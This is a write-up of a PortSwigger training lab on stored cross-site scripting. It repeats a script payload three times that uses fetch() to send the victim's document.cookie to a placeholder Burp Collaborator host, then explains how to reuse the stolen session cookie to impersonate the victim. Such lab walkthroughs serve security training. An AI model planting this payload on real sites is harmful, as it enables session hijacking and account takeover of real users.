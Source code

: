 # Exploiting Cross-Site Scripting to Steal Cookies (PortSwigger Lab)

## Lab: Exploiting Cross-Site Scripting to Steal Cookies

### Lab URL

[https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

### High-Level Summary

**Objective:** Exploit a stored XSS vulnerability in the blog comment section to exfiltrate the victim's session cookie and use it to impersonate the victim.

#### Key Techniques & Concepts

* Stored Cross-Site Scripting (XSS)
* JavaScript Fetch API for Data Exfiltration
* Burp Collaborator for External Interactions

#### What Makes This Vulnerable?

* The web application reflects untrusted input into the blog comments without proper sanitization.
* The vulnerable context allows arbitrary JavaScript execution in the victim's browser.

***

### Steps to Exploit

1. **Set Up Burp Collaborator:**
   * Open **Burp Suite Professional** and navigate to the **Collaborator** tab.
   * Click **Copy to Clipboard** to obtain a unique Burp Collaborator subdomain.
2. **Submit Malicious Comment:**
   *   Post a comment on the blog using the following payload, replacing `BURP-COLLABORATOR-SUBDOMAIN` with the copied subdomain:

       ```html
       <script>
       fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
           method: 'POST',
           mode: 'no-cors',
           body: document.cookie
       });
       </script>
       ```
3. **Trigger the XSS:**
   * Wait for the victim to view the comments section where the payload was injected.
4. **Capture the Cookie:**
   * Go back to the **Collaborator** tab and click **Poll now**.
   * Confirm receipt of the HTTP request containing the victim's session cookie in the request body.
5. **Session Hijacking:**
   * Copy the captured session cookie.
   * Use **Burp Proxy** or the browser's developer tools to replace your own session cookie with the stolen one.
   * Navigate to `/my-account` to verify you have successfully impersonated the victim.

***

### Instructor Solution

#### Step 1: Confirm XSS Vulnerability

*   Navigate to the blog post comment section and submit a basic test payload:

    ```html
    <script>alert(1)</script>
    ```
* Confirm the alert box appears, verifying the XSS vulnerability.

#### Step 2: Construct the Payload

*   Submit the following JavaScript payload in a blog comment:

    ```html
    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
    </script>
    ```

#### Step 3: Use Burp Collaborator

* Go to **Burp Collaborator**, copy the public subdomain, and insert it into the payload.
* Click **Poll now** after submission to verify incoming requests.

#### Step 4: Capture and Use the Cookie

* Extract the session cookie from the captured HTTP request.
* Open the **Application** tab in the browser's Developer Tools.
* Go to **Storage > Cookies** and replace the session cookie with the captured one.
* Change the URL to `/my-account` to access the victim's session.

✅ **Lab completed successfully.**

***

### Explanation of Payloads and Techniques

#### How the Payload Works

* The `<script>` tag executes JavaScript in the victim's browser.
* `fetch()` makes an HTTP POST request to the attacker's **Burp Collaborator** server.
* `mode: 'no-cors'` is used to bypass CORS restrictions (explained below).
* `document.cookie` sends the current session cookie to the attacker.

#### What is CORS?

* **CORS (Cross-Origin Resource Sharing)** is a browser security feature that restricts web pages from making requests to a domain different from the one serving the web page.
* By default, web browsers block cross-origin requests due to security concerns.

#### Why Use `mode: 'no-cors'`?

* The `mode: 'no-cors'` setting in the `fetch()` API prevents the browser from blocking the request.
* However, when using `no-cors` mode, the response body cannot be read. This is acceptable here because the goal is to **send** data, not retrieve it.

#### Why This Works

* The blog comments feature directly reflects user input without sanitization.
* The victim automatically loads the comment, executing the XSS payload.
* The cookie is accessible in the JavaScript context due to the lack of `HttpOnly` flag on the session cookie.

***

### Tools and Commands

* **Burp Suite Professional:** Collaborator, Repeater
*   **Payload:**

    ```html
    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
    </script>
    ```
* **Resources:** [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
